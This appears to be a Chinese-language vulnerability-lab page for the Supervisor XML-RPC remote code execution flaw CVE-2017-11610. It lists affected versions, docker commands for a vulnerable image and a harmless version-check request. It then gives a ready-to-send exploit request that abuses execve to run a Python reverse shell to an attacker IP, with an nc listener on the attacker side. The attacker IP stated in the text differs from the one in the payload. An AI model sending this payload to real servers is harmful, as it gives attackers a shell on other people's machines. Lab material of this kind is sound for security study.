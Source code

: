 ```yaml
---
layout: post
title: "Supervisor Remote Code Execution(CVE-2017-11610)"
date: 2017-07-28 00:41:04
image: '/assets/img/'
description: '远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码'
main-class: 'hole'
color: '#B31917'
tags:
- Supervisor
- RCE
categories:
- Supervisor
twitter_text: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
introduction: 'Supervisor Remote Code Execution(CVE-2017-11610)环境'
---
```


### 漏洞信息

Supervisor 是用 Python 开发的一套通用的进程管理程序，能将一个普通的命令行进程变为后台 daemon，并监控进程状态，异常退出时能自动重启。Supervisor可通过web接口管理服务，在配置了web接口后，同时会在服务器启动一个 XMLRPC 服务器，端口为 9001。该接口可配置需要密码访问，或者无需认证访问。

在获取该接口的访问权限后，远程攻击者可发送一段精心构造的请求，可在服务器执行任意代码。

详细信息参考：[[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)

### 影响版本

大于 3.0

#### 已经确认：

* Supervisor 3.1.2 
* Supervisor 3.3.2

#### 已修复此漏洞版本

* Supervisor 3.3.3
* Supervisor 3.2.4
* Superivsor 3.1.4
* Supervisor 3.0.1

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
http://127.0.0.1/9001/RPC2 | vulapps | vulapps

> 本环境默认无认证，如需开启，请修改 `/etc/supervisor.conf` 文件

### 获取环境:

1. 拉取镜像到本地
 ```
$ docker pull medicean/vulapps:s_supervisor_1
 ```

2. 启动环境
 ```
$ docker run -d -p 80:80 -p 9001:9001 medicean/vulapps:s_supervisor_1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:80 看到 web 界面即启动成功

#### PoC

[查看巡风检测脚本](https://github.com/ysrc/xunfeng/pull/117/)

无损化检测时可发送该报文，检测返回版本号：

{% highlight http %}
POST /RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 110
Host: 127.0.0.1:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.getSupervisorVersion</methodName>
</methodCall>
{% endhighlight %}

返回内容如下：

{% highlight http %}
HTTP/1.1 200 OK
Date: Fri, 28 Jul 2017 05:08:47 GMT
Content-Length: 131
Content-Type: text/xml
Server: Medusa/1.12

<?xml version='1.0'?>
<methodResponse>
<params>
<param>
<value><string>3.3.2</string></value>
</param>
</params>
</methodResponse>
{% endhighlight %}

如果提示 401 未认证错误，可在请求头中添加 HTTP基础认证

#### Exp

**注意：**该 Exp 使用的`execve`, 如果存在漏洞，会将 `supervisord` 进程替换成指定的程序(本 Exp 中将会替换成 `/usr/bin/python`)，换言之，会导致`supervisord`进程退出，**生产环境中请慎用**

反弹 Shell 演示：

> 假定启动后的环境如下：
>
> 攻击者 IP: 192.168.2.104
> 
> 受害者 IP: 192.168.2.100

1. 在攻击者机器上使用 nc 监听
 ```
 $ nc -lvp 9999
 ```

2. 向受害者 9001 端口发送如下报文后即可
{% highlight http %}
POST http://192.168.2.100:9001/RPC2 HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/xml
Content-Type: text/xml
Accept-Language: en-GB,en;q=0.5
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Length: 638
Host: 192.168.2.100:9001

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
<value><string>import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.2.140",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);</string></value>
</data>
</array>
</param>
<param>
<struct>
</struct>
</param>
</params>
</methodCall>
{% endhighlight %}

---

![](https://github.com/Medicean/VulApps/raw/master/s/supervisor/1/exp.png)

### 参考链接

* [SSD Advisory – Supervisor Authenticated Remote Code Execution](https://blogs.securiteam.com/index.php/archives/3348)
* [[CVE-2017-11610] RCE vulnerability report](https://github.com/Supervisor/supervisor/issues/964)
